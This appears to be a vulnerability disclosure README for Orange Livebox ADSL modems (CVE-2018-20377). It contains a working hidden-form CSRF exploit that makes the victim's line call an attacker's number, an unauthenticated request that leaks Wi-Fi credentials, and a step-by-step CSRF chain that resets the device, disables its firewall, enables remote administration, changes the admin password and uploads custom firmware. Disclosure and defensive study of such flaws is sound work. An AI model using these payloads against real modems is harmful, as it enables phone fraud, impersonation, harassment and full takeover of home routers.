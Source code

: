 # LIVEBOX-0DAY   CVE-2018-20377
Arcadyan ARV7519RW22-A-L T VR9 1.2 Multiple security vulnerabilities affecting latest firmware release on ORANGE Livebox ADSL modems.

```
Versión de Firmware:  00.96.320S (01.11.2017-11:43:44)
Versión del Boot:  v0.70.03
Versión del Módem ADSL: 5.4.1.10.1.1A
Versión de Hardware:  02
```

<img src="https://zdnet4.cbsistatic.com/hub/i/2018/12/24/f38a0deb-981c-40d9-8b62-63b26722864a/cff2efda698d728f09ba5449ebeac37a/orangelivebox.png" width="1000px">

**CWE-359**: *Exposure of Private Information ('Privacy Violation').*

A very serious attack vector allows an attacker to link CSRF drive-by vulnerabilities to exploit Autodialing and Line Test features, succesfully making calls from a victim's line, exposing a client's phone number and making him susceptible to scams and impersonation. Nuisance calls alone are also a serious concern.

` Proof of concept exploit: `  

``` html
<!DOCTYPE html>

<!-- Phone number disclosure, reflected call exploit -->

<html>

<iframe style="display:none" id="csrf-frame-invisible" name="csrf-frame-invisible"></iframe>
<form style="display:none" method='POST' action='http://192.168.1.1/cgi-bin/autodialing.exe' target="csrf-frame-invisible" name="csrf-form-invisible" id="csrf-form-invisible">
  <input type='hidden' name='autodialing_enable' value='1'>
  <input type='hidden' name='autodialing_number' value='5550150'> <!-- attacker's phone number goes here -->
  <input type='hidden' name='autodialing_timeout' value='0'>
  <input type='submit' value='Submit'>
</form>

<script>document.getElementById("csrf-form-invisible").submit()</script>

<img src="http://192.168.1.1/cgi-bin/phone_test.exe" width="0" height="0" border="0">

</html>
```

When the victim visits the malicious site, it will create an autodialing profile on the victim's modem, and activate the Line Test feature. No interaction needed. The phone will ring, and when the call is answered the autodialing feature will call the attacker's number. 

&nbsp;

<!---
-->
 Demo                           | Attack scenario |
:------------------------------:|:----------------------:|
 ![DEMO](poc/CWE-359.gif)       | This vector can be exploited to conduct false flag operations (such as impersonating an individual with a restraint order against another), marketing campaings, harassment, denial of service, and intelligence gathering. |

&nbsp;



**CWE-200**: *Information Exposure: Unauthenticated configuration information leak.*

	The webserver leaks access point security protocol, SSID, and password in plain text.
	GET http://192.168.1.1/get_getnetworkconf.cgi

``` html
	<html>
	<body>
	Orange-SSID<BR>
	PASSWORD<BR>
	255.255.255.0<BR>
	192.168.1.1<BR>
	0<BR>
	WPA<BR>
	<BR>
	</body>
	</html>
```


**CWE-352**: *Cross-Site Request Forgery (CSRF): The web application does not, sufficiently verify whether a well-formed, valid, consistent request was intentionally provided by the user who submitted the request. Allows an attacker to manipulate all configuration parameters.*

```
Integrity Impact 	Complete. 	(There is a total compromise of system integrity. There is a complete loss of system protection, resulting in the entire system being compromised.)  
Availability Impact 	Complete.	(There is a total shutdown of the affected resource. The attacker can render the resource completely unavailable.)  
Access Complexity 	Low.		(Specialized access conditions or extenuating circumstances do not exist. Very little knowledge or skill is required to exploit. )  
Authentication 		None.		(The vulnerability does not require an attacker or user to be logged into the system).   
User interaction        None.  
```

	- Login with default admin:admin credentials after restoring configuration to factory settings. (This can be omited if the victim has an active session.)
	- Change default credentials.
	- Enable remote access.
	- Upload custom firmware to install remote access malware or brick the system.

	
	POST http://192.168.1.1/cgi-bin/restore.exe {empty body} Restores configuration to factory defaults.
	POST http://192.168.1.1/cgi-bin/firewall_SPI.exe {empty body} Disables all firewall protections.
	POST http://192.168.1.1/cgi-bin/setup_remote_mgmt.exe {IP1=FIRST_OCTET &IP2=SECOND_OCTET &IP3=THIRD_OCTET &IP4=FOURTH_OCTET &r_mgnt_port=_PORT } Allows remote administration. 
	POST http://192.168.1.1/cgi-bin/setup_pass.exe	{submit_action=0&userNew=admin&userOldPswd=admin&userNewPswd=NEWPASS&userConPswd=NEWPASS&timeout=0} Changes default password.
	POST http://192.168.1.1/cgi-bin/upgradep.exe Custom firmware update.




**CWE-912**: *Hidden Functionality. The software contains functionality that is not documented, not part of the specification, and not accessible through an interface or command sequence that is obvious to the software's users or administrators.*

Manual firmware update. Allows malware to be installed as described before.
	
	GET http://192.168.1.1/system_firmwarel.stm

## Media coverage

* [BadPackets](https://badpackets.net/over-19000-orange-livebox-adsl-modems-are-leaking-their-wifi-credentials/)
* [InfoSecurity Magazine](https://www.infosecurity-magazine.com/news/20000-orange-modems-leaking-wi-fi/)  
* [BleepingComputer](https://www.bleepingcomputer.com/news/security/orange-livebox-modems-targeted-for-ssid-and-wifi-info/)    
* [GBhackers](https://gbhackers.com/orange-adsl-modems/)  
* [Security Affairs](https://securityaffairs.co/wordpress/79152/hacking/orange-livebox-adsl-modems-flaw.html)  

---

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

**mapez** - [telegram](https://t.me/mapezz)
